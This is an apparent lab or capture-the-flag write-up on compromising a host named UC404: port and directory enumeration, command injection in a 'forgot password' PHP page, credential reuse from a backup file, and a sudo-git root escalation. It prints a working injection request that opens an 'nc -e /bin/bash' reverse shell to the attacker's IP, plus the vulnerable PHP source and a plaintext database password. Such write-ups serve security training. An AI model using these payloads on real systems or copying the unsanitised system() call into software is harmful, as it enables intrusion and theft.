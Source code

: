 # UC404

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.109
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:34 +08
Nmap scan report for 192.168.202.109
Host is up (0.17s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
41473/tcp open  unknown
45259/tcp open  unknown
49415/tcp open  unknown
54505/tcp open  unknown
```

NFS is open, which might have stuff we can mount on.

### Rabbit Holes

NFS had nothing:

```
$ showmount -e 192.168.202.109      
Export list for 192.168.202.109:
```

Port 80 shows some dashboard that looks static:

<figure><img src="../../../.gitbook/assets/image (20) (1) (9).png" alt=""><figcaption></figcaption></figure>

A detailed `nmap` scan reveals that there's a `.git` repository present:

```
$ sudo nmap -p 80 -sC -sV --min-rate 3000 192.168.202.109
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:37 +08
Nmap scan report for 192.168.202.109
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-git: 
|   192.168.202.109:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|       https://github.com/ColorlibHQ/AdminLTE.git
|_    Project type: Ruby on Rails web application (guessed from .gitignore)
|_http-title: AdminLTE 3 | Dashboard
```

However, there's nothing interesting within it.&#x20;

### Web Enumeration --> Cmd Injection

I ran a `gobuster` scan on port 80 and found one interesting directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.202.109 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.202.109
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/06 21:37:30 Starting gobuster in directory enumeration mode
===============================================================
/pages                (Status: 301) [Size: 318] [--> http://192.168.202.109/pages/]
/demo                 (Status: 301) [Size: 317] [--> http://192.168.202.109/demo/]
/plugins              (Status: 301) [Size: 320] [--> http://192.168.202.109/plugins/]
/docs                 (Status: 301) [Size: 317] [--> http://192.168.202.109/docs/]
/db                   (Status: 301) [Size: 315] [--> http://192.168.202.109/db/]
/dist                 (Status: 301) [Size: 317] [--> http://192.168.202.109/dist/]
/build                (Status: 301) [Size: 318] [--> http://192.168.202.109/build/]
/LICENSE              (Status: 200) [Size: 1082]
/under_construction   (Status: 301) [Size: 331] [--> http://192.168.202.109/under_construction/]
```

The `under_construction` part looked the most promising. It just brought us to a login page:

<figure><img src="../../../.gitbook/assets/image (1) (15).png" alt=""><figcaption></figcaption></figure>

Default credentials don't work with this one. I was a bit stuck here, but eventually decided to check the page source of all pages. There was this interesting bit within the source for the 'Forgot Password' page:

<figure><img src="../../../.gitbook/assets/image (3) (1) (11).png" alt=""><figcaption></figcaption></figure>

Blacklisting some characters means that there is a potential injection point here. I was curious about that '1' and what it was reflecting. I tested this a bit by sending POST requests, but it didn't really work.&#x20;

I thought for a while, and decided to change it to GET requests instead of POST, and it actually worked!

<figure><img src="../../../.gitbook/assets/image (5) (2) (6).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell by sending this request:

```http
GET /under_construction/forgot.php?email=%0a+nc+-e+/bin/bash+192.168.45.179+21 HTTP/1.1
Host: 192.168.202.109
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://192.168.202.109
Connection: close
Referer: http://192.168.202.109/under_construction/forgot.php
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (16) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

Super CTF-ish initial access. We can read the source code to see how it works:

```php
<?php
//system("php sendmail.php " . $_GET['email'], $output); print_r($output)
$badUrl = $_GET['email'];
$goodUrl = str_replace(';', '?', $badUrl);
system("php sendmail.php " . $goodUrl, $output); print_r($output);
?>
```

## Privilege Escalation

### Brian Creds

I ran a `linpeas.sh` scan to enumerate for me. It picked up on this:

```
[+] Backup folders
drwxr-xr-x 2 root root 4096 Jan 27 16:07 /var/backups                                        
total 16
-rw-r--r-- 1 root     root     10832 Oct 27  2020 apt.extended_states.0
-rw-r--r-- 1 www-data www-data   787 Sep 18  2020 sendmail.php.bak
```

We can read it to find more credentials:

{% code overflow="wrap" %}
```php
www-data@UC404:/tmp$ cat /var/backups/sendmail.php.bak 
<?php                                                                                        
if(isset($_POST['submit']))                                                                  
{ 
$connect=mysql_connect("localhost","brian","BrianIsOnTheAir789") or die("Could not connect to database");
```
{% endcode %}

We can then `su` to `brian`:

<figure><img src="../../../.gitbook/assets/image (14) (2) (2).png" alt=""><figcaption></figcaption></figure>

### Sudo Git

Since we had the password, we can check `sudo` privileges:

```
brian@UC404:/tmp$ sudo -l
Matching Defaults entries for brian on UC404:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User brian may run the following commands on UC404:
    (ALL) NOPASSWD: /usr/bin/git
```

We can follow GTFOBins to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (8) (11).png" alt=""><figcaption></figcaption></figure>

Rooted!
